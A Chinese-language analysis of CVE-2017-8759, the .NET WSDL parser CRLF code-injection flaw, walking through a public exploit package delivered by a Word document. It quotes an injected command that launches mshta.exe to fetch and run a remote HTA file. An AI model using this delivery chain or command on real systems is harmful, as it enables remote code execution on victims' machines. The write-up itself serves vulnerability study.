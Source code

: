 ## CVE-2017-8759漏洞分析

### 漏洞介绍

在.Net的PrintClientProxy方法中实现的WSDL解析器代码中存在漏洞，当调用IsValidUrl函数时，由于该函数未能正确处理包含回车换行的输入，导致了任意代码注入。

### 漏洞分析

SOAP（简单对象访问协议，Simple Object Access Protocol)，是交换数据的一种协议规范，使用在计算机网络Web服务中，交换带结构的信息。WSDL（网络服务描述语言，Web Services Description Language）是一门基于 XML 的语言，用于描述 Web Services 以及如何对它们进行访问。WSDL用于描述基于SOAP的Web服务的功能。

在.Net的`PrintClientProxy`方法中实现的[WSDL解析器](http://referencesource.microsoft.com/#System.Runtime.Remoting/metadata/wsdlparser.cs,6111)代码中存在漏洞，当调用[IsValidUrl](http://referencesource.microsoft.com/System.Runtime.Remoting/R/1bd2c5d8fcea7a6b.html)函数时，由于该函数未能正确处理包含回车换行 (CRLF) 的输入，导致了代码注入。下图为`PrintClientProxy`中的一段代码，在for循环中将遍历`_connectURLs`，当有多个`_connectURL`时将第一个URL传入`WsdlParser.IsValidUrl()`函数中，将返回结果附加在`sb`中。而第一个之后的URL将进入else条件中，被注释掉后再传入`WsdlParser.IsValidUrl()`函数，最后附加在`sb`中。

![](img/1.PNG)

但由于`IsValidUrl`函数未能够对URL中存在的CRLF进行过滤，导致回车换行后的内容也被附加在了vsb中，并作为返回值附加在sb中，并通过`textWriter.WriteLine(sb)`将所有内容写入生成的.cs文件中。

![](img/2.PNG)

在分析了Microsoft .Net中产生漏洞原因之后，接下来让我们分析exp是如何利用漏洞的。在exp文件夹的42711.zip中存在3个文件，分别是cmd.hta、Doc1.doc、exploit.txt。

![](img/3.PNG)

漏洞的利用过程首先是诱使受害者在Windows中打开Doc1.doc文档，通过SOAP引用地址http://localhost:8080/exploit.txt所指定的WSDL描述 (注意这里的地址可以是外部服务器IP，本exp为了演示方便在受害者主机上直接创建了web服务) 。

![](img/4.PNG)

Office将通过Macro请求exploit.txt，并启动SOAP WSDL解析器对该内容进行解析。下图为exploit.txt的内容，可以看到其中有两个`<soap:address location="..."/>`标签，WSDL解析器解析该标签时，由于第二个标签的URL中存在CRLF，导致了命令注入。

![](img/5.PNG)

在经过WSDL解析器解析后，将生成一个.cs文件作为源码保存在工作目录中，接着.NET框架在的csc.exe将会编译这个.cs文件，并生成名称为`http[url_path].dll`的动态链接库。在`C:\WINDOWS\system32\Com\SOAPAssembly`目录下可以看到该.cs文件。

![](img/6.PNG)

查看该文件的内容，可以看到注释被成功绕过，一段代码被成功插入其中，当该代码执行时将会执行如下命令：`System.Diagnostics.Process.Start(C:\Windows\System32\mshta.exe,http://127.0.0.1:8080/cmd.hta)`。

![](img/7.PNG)

mshta.exe是Windows操作系统相关程序，英文全称Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行.HTA文件。cmd.hta文件的内容如下，该VBScript执行后将通过`Process.Create()`函数打开mspaint.exe程序，也就是Windows系统下的画图程序。

![](img/8.PNG)

总结来说，exp通过在Word文档中引用的SOAP WSDL对象触发WSDL解析器的解析漏洞，最终达到注入并执行任意代码的目的。